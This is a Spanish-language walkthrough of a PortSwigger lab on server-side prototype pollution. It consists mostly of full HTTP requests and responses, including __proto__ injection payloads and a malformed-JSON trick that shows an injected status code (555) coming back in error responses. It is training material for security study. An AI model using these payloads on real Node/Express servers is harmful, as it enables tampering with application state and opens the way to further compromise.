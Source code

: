 ```yaml
---
description: >-
  https://portswigger.net/web-security/prototype-pollution/server-side/lab-detecting-server-side-prototype-pollution-without-polluted-property-reflection
---
```


# Lab 7: Detecting server-side prototype pollution without polluted property reflection

Primero revisamos el trafico que genera el aplicativo web y se detecta el siguiente request:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net
Cookie: session=XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu
Content-Length: 168
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu"}
```
{% endcode %}

La peticion previa responde asi:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"c5-o6PbsdZgCxd7ROzSod5GR7NXS6Q"
Date: Tue, 25 Jun 2024 20:12:02 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 197

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false}
```
{% endcode %}

Intentamos con el siguiente payload:

```json
POST /my-account/change-address HTTP/2
Host: 0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net
Cookie: session=XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu
Content-Length: 203
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu","__proto__": {
    "foo":"bar"
}}
```

Pero no funciono o no se reflejo el campo:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"c5-o6PbsdZgCxd7ROzSod5GR7NXS6Q"
Date: Tue, 25 Jun 2024 20:14:19 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 197

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false}
```
{% endcode %}

Y por lo anterior, se intenta generar un error en el servicio quitando una coma:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net
Cookie: session=XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu
Content-Length: 167
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK""sessionId":"XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu"}
```
{% endcode %}

La peticion previa, genero la siguiente respuesta:

{% code overflow="wrap" %}
```json
HTTP/2 500 Internal Server Error
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Etag: W/"129-iMzSuUhACcMNlGkXLgd4T75bkIA"
Date: Tue, 25 Jun 2024 20:16:03 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 297

{"error":{"expose":true,"statusCode":400,"status":400,"body":"{\"address_line_1\":\"Wiener HQ\",\"address_line_2\":\"One Wiener Way\",\"city\":\"Wienerville\",\"postcode\":\"BU1 1RP\",\"country\":\"UK\"\"sessionId\":\"XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu\"}","type":"entity.parse.failed","foo":"bar"}}
```
{% endcode %}

La respuesta tiene en el body un JSON que incluye varios objetos pero los mas relevantes para nuestra auditoria serian: `"statusCode":400,"status":400`

Teniendo en cuenta lo anterior, enviamos la siguiente peticion:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net
Cookie: session=XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu
Content-Length: 204
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu","__proto__": {
    "status":555
}}
```
{% endcode %}

La peticion previa incluye `"status":555`.

Luego del envio de esta, se procede a generar un error nuevamente:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net
Cookie: session=XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu
Content-Length: 203
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac9007b040e97fe817fd97b00f8007d.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK""sessionId":"XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu","__proto__": {
    "status":555
}}
```
{% endcode %}

La peticion previa generar un error debido a la ausencia de coma entre country y sessionid.

Y como previamente se habia enviado la peticion correcta con status 555; el aplicativo web responde asi:

{% code overflow="wrap" %}
```json
HTTP/2 500 Internal Server Error
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Etag: W/"156-mZNoTVmgjcskCseuIaWqOOXUzLI"
Date: Tue, 25 Jun 2024 20:16:35 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 342

{"error":{"expose":false,"statusCode":555,"status":555,"body":"{\"address_line_1\":\"Wiener HQ\",\"address_line_2\":\"One Wiener Way\",\"city\":\"Wienerville\",\"postcode\":\"BU1 1RP\",\"country\":\"UK\"\"sessionId\":\"XyCpRGsEtzVuQZYKp7hAeWpXEmruMDCu\",\"__proto__\": {\r\n    \"status\":555\r\n}}","type":"entity.parse.failed","foo":"bar"}}
```
{% endcode %}

Se puede apreciar que `"statusCode":555,"status":555` coinciden con los valores inyectados previamente.
